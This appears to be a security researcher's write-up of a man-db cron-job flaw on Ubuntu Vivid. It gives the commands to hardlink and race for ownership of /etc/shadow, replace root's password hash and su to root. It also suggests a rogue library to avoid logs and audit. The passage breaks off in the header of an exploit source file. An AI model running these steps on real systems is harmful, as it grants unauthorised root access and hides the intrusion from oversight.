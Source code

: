 
## man:root -> root:root

Finding hardlinking target: To start with, user man has to hardlink a file not owned by user man. Without hardlink protection (/proc/sys/fs/protected_hardlinks set to 0), any root owned system file will do and chown will make it accessible to user man.
Without hardlink protection, user man one could race with find traversing the directories. It seems that new version of find with fts uses secure open and always checks stat of each file inode, both when entering subdirectories and when leaving. So a real hardlink to a file of another user is needed.

Even with hardlink protection, linking to file writable by user man is still allowed, but files have to reside on same file system. On standard Ubuntu Vivid system, there are just few target files:

```
man# find / -mount -type f -perm -0002 2> /dev/null
/var/crash/.lock
man# ls -al /var/crash/.lock
-rwxrwxrwx 1 root root 0 May 23 13:10 /var/crash/.lock
```



Using Timerace Using Inotify: As the mandb cronjob will change ownership of any file to user man, there are numerous targets for privilege escalation. The one I like best when /bin/su SUID binary is available to change /etc/shadow. PAM just does not recognise this state, so only root password has to be cleared for su logon. For that purpose, the good old inotify-tool DirModifyInotify-20110530.c from a previous article. To escalate following steps are sufficient:

```
man# mkdir -p /var/cache/man/etc
man# ln /var/crash/.lock /var/cache/man/etc/shadow
man# ./DirModifyInotify --Watch /var/cache/man/etc --WatchCount 0 --MovePath /var/cache/man/etc --LinkTarget /etc
... Wait till daily cronjob was run
man# cp /etc/shadow .
man# sed -r -e 's/^root:.*/root:$1$kKBXcycA$w.1NUJ77AuKcSYYrjLn9s1:15462:0:99999:7:::/' /etc/shadow > x
man# cat x > /etc/shadow; rm x
man# su -s /bin/sh (password is 123)
root# cat shadow > /etc/shadow; chown root /etc/shadow
```
If one does not want want PAM or su to write something to logs, trip over some audit/apparmor settings, we may want to make some library directory man-owned and place rogue library variant there.

- - - - -

/* CreateSetgidBinary.c */
/** This software is provided by the copyright owner "as is" and any
 *  expressed or implied warranties, including, but not limited to,
 *  the implied warranties of merchantability and fitness for a particular
 *  purpose are disclaimed. In no event shall the copyright owner be
 *  liable for any direct, indirect, incidential, special, exemplary or
 *  consequential damages, including, but not limited to, procurement
 *  of substitute goods or services, loss of use, data or profits or
 *  business interruption, however caused and on any theory of liability,
 *  whether in contract, strict liability, or tort, including negligence
 *  or otherwise, arising in any way out of the use of this software,
 *  even if advised of the possibility of such damage.
 *
 *  This tool allows to create a setgid binary in appropriate directory
 *  to escalate to the group of this directory.
 *
 *  Compile: gcc -o CreateSetgidBinary CreateSetgidBinary.c
 *
 *  Usage: CreateSetgidBinary [targetfile] [suid-binary] [placeholder] [args]
 *
 *  Example: 